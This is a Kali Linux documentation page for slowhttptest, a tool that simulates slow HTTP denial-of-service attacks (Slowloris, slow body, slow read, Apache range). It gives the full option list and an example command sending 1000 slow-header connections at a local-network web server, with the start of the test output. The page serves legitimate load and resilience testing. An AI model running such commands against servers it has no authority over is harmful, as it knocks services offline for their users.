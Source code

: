 ```yaml
---
Title: slowhttptest
Homepage: https://github.com/shekyan/slowhttptest
Repository: https://salsa.debian.org/debian/slowhttptest
Architectures: any
Version: 1.8.2-1
Metapackages: kali-linux-everything kali-tools-vulnerability kali-tools-web 
Icon: /images/kali-tools-icon-missing.svg
PackagesInfo: |
 ### slowhttptest
 
  SlowHTTPTest is a highly configurable tool that simulates some application
  layer Denial of Service attacks.
   
  It implements most common low-bandwidth application layer Denial of Service
  attacks, such as
    * Slowloris
    * Slow HTTP POST
    * Slow Read attack (based on TCP persist timer exploit) by draining
      concurrent connections pool
    * Apache Range Header attack by causing very significant memory and CPU
      usage on the server.
 
 **Installed size:** `92 KB`  
 **How to install:** `sudo apt install slowhttptest`  
 
 {{< spoiler "Dependencies:" >}}
 * libc6 
 * libgcc-s1 
 * libssl1.1 
 * libstdc++6 
 {{< /spoiler >}}
 
 ##### slowhttptest
 
 Denial Of Service attacks simulator
 
 ```
 root@kali:~# slowhttptest -h
 
 slowhttptest, a tool to test for slow HTTP DoS vulnerabilities - version 1.8.2
 Usage: slowhttptest [options ...]
 Test modes:
   -H               slow headers a.k.a. Slowloris (default)
   -B               slow body a.k.a R-U-Dead-Yet
   -R               range attack a.k.a Apache killer
   -X               slow read a.k.a Slow Read
 
 Reporting options:
 
   -g               generate statistics with socket state changes (off)
   -o file_prefix   save statistics output in file.html and file.csv (-g required)
   -v level         verbosity level 0-4: Fatal, Info, Error, Warning, Debug
 
 General options:
 
   -c connections   target number of connections (50)
   -i seconds       interval between followup data in seconds (10)
   -l seconds       target test length in seconds (240)
   -r rate          connections per seconds (50)
   -s bytes         value of Content-Length header if needed (4096)
   -t verb          verb to use in request, default to GET for
                    slow headers and response and to POST for slow body
   -u URL           absolute URL of target (http://localhost/)
   -x bytes         max length of each randomized name/value pair of
                    followup data per tick, e.g. -x 2 generates
                    X-xx: xx for header or &xx=xx for body, where x
                    is random character (32)
   -f content-type  value of Content-type header (application/x-www-form-urlencoded)
   -m accept        value of Accept header (text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5)
 
 Probe/Proxy options:
 
   -d host:port     all traffic directed through HTTP proxy at host:port (off)
   -e host:port     probe traffic directed through HTTP proxy at host:port (off)
   -p seconds       timeout to wait for HTTP response on probe connection,
                    after which server is considered inaccessible (5)
   -j cookies       value of Cookie header (ex.: -j "user_id=1001; timeout=9000")
 
 Range attack specific options:
 
   -a start        left boundary of range in range header (5)
   -b bytes        limit for range header right boundary values (2000)
 
 Slow read specific options:
 
   -k num          number of times to repeat same request in the connection. Use to
                   multiply response size if server supports persistent connections (1)
   -n seconds      interval between read operations from recv buffer in seconds (1)
   -w bytes        start of the range advertised window size would be picked from (1)
   -y bytes        end of the range advertised window size would be picked from (512)
   -z bytes        bytes to slow read from receive buffer with single read() call (5)
 ```
 
 - - -
 
---
```

{{% hidden-comment "<!--Do not edit anything above this line-->" %}}

## slowhttptest Usage Example

Use 1000 connections (`-c 1000`) with the Slowloris mode (`-H`), and generate statistics (`-g>` with the output file name (-`o slowhttp`). Use 10 seconds to wait for data (`-i 10`), 200 connections (`-r 200`) with GET requests (`-t GET`) against the target URL (`-u http://192.168.1.202/index.php`) with a maximum of length of 24 bytes (`-x 24)` and a 3 second time out (`-p 3`):

```
root@kali:~# slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://192.168.1.202/index.php -x 24 -p 3
Sat May 17 10:45:26 2014:
Sat May 17 10:45:26 2014:
    slowhttptest version 1.6
 - https://code.google.com/p/slowhttptest/ -
test type:                        SLOW HEADERS
number of connections:            1000
URL:                              http://192.168.1.202/index.php
verb:                             GET
Content-Length header value:      4096
follow up data max size:          52
interval between follow up data:  10 seconds
connections per seconds:          200
probe connection timeout:         3 seconds
test duration:                    240 seconds
using proxy:                      no proxy

Sat May 17 10:45:26 2014:
slow HTTP test status on 0th second:

initializing:        0
pending:             1
connected:           0
error:               0
closed:              0
service available:   YES
```
